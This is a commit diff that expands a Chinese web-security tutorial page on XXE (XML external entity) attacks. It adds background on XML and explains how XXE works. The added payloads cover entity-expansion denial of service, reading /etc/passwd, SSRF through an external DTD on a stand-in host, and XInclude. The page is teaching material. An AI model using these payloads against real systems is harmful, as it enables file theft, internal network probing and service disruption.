

Before and after one commit to LyleMi/Learn-Web-Hacking, a Sphinx documentation site: the page built from source/vuln/xxe.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update xxe document

```diff
--- a/source/vuln/xxe.rst
+++ b/source/vuln/xxe.rst
@@ -1,8 +1,71 @@
 XXE
-================================
+======================================
 
-常见payload
+XML基础
+--------------------------------------
+XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。
+
+
+XXE
+--------------------------------------
+当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。
+
+
+攻击方式
+--------------------------------------
+
+拒绝服务攻击
+~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 
 ::
 
-    <!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
+    <!DOCTYPE data [
+    <!ELEMENT data (#ANY)>
+    <!ENTITY a0 "dos" >
+    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
+    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
+    ]>
+    <data>&a2;</data>
+
+若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。
+具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。
+
+
+一般XXE攻击
+~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+
+::
+
+    <?xml version="1.0"?>
+    <!DOCTYPE data [
+    <!ELEMENT data (#ANY)>
+    <!ENTITY file SYSTEM "file:///etc/passwd">
+    ]>
+    <data>&file;</data>
+
+SSRF
+~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+
+::
+
+    <?xml version="1.0"?>
+    <!DOCTYPE data SYSTEM "http://publicServer.com/" [
+    <!ELEMENT data (#ANY)>
+    ]>
+    <data>4</data>
+
+XInclude
+~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+
+::
+
+    <?xml version='1.0'?>
+    <data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>
+
+
+参考链接
+--------------------------------------
+
+- `XML教程 <http://www.w3school.com.cn/xml/>`_
+- `未知攻焉知防 XXE漏洞攻防 <https://security.tencent.com/index.php/blog/msg/69>`_
+- `XXE 攻击笔记分享 <http://www.freebuf.com/articles/web/97833.html>`_
```
Also changed, not shown: README.md (+1 -1 lines).
